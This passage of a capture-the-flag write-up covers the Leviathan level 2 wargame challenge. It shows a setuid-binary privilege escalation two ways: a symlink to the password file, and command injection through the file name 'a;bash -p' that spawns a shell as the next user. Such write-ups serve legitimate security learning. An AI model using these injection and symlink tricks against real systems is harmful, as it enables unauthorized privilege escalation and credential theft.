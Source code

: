 Notice how cat handled it? 

How is that relevant? Well, when `system("/bin/cat /tmp/abatchy/a b")` is executed, it prints the content of a and b, not `a b`. Yet, the `access()` call made doesn't handle it like `cat`, instead it checks access for the file name provided `a b`. You can see that if you run `strace`.

```
access("/tmp/abatchy/a b", R_OK)        = 0
```

How do we still access `/etc/leviathan_pass/leviathan3`? Using the `ln` command by making a symbolic link to that file.

What we'll do:
1. Symlink `b` to `/etc/leviathan_pass/leviathan3`
2. Execute `printfile "/tmp/abatchy/printfile a b"`

```console
leviathan2@leviathan:/tmp/abatchy$ ln -s /etc/leviathan_pass/leviathan3 b
leviathan2@leviathan:/tmp/abatchy$ /home/leviathan2/printfile "/tmp/abatchy/a b"
1
password_to_leviathan3
```

Just what we expected, it printed the content of both `a` and `b` (the symlink).

PS: We had to use `-s` with `ln` because that would've been a hard link and we don't have enough permission.

### Solution 2

Notice how the input is not being validated properly? It only checks if we have access to it then passes it directly to `system` which doesn't have to execute a single command...

One way in linux to run multiple commands is using `&&` or `;`, what if our file has a name with one of these symbols? Maybe spawn a shell too?

```console
leviathan2@leviathan:/tmp/abatchy$ /home/leviathan2/printfile "a;bash"
1
bash-4.3$ whoami
leviathan2
bash-4.3$ exit
exit
leviathan2@leviathan:/tmp/abatchy$ touch "a;bash -p"
leviathan2@leviathan:/tmp/abatchy$ /home/leviathan2/printfile "a;bash -p"
1
bash-4.3$ whoami
leviathan3
```

I left on purpose my first attempt using `bash`, `-p` prevents the binary from dropping the permissions, they're all the way down in the [man pages](https://linux.die.net/man/1/bash)

```
-p

Turn on privileged mode. In this mode, the $ENV and $BASH_ENV files are not processed, shell functions are not inherited from the environment, and the SHELLOPTS, BASHOPTS, CDPATH, and GLOBIGNORE variables, if they appear in the environment, are ignored. If the shell is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, these actions are taken and the effective user id is set to the real user id. If the -p option is supplied at startup, the effective user id is not reset. Turning this option off causes the effective user and group ids to be set to the real user and group ids. 
```

---